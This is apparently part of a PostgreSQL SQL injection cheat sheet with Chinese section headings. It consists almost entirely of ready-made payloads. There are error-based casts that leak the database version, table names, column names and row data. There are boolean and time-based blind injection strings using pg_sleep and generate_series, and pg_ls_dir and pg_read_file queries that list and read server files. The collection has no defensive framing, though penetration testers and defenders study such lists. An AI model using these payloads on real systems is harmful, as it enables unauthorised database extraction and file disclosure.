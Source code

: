 ```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)

,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--

,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--

,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)



' and 1=cast((SELECT concat('DATABASE: 

',current_database())) as int) and '1'='1

' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```



## 盲注

```
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO

```



### 时间盲注

```
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```



## 文件操作

**读取文件**

```
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```
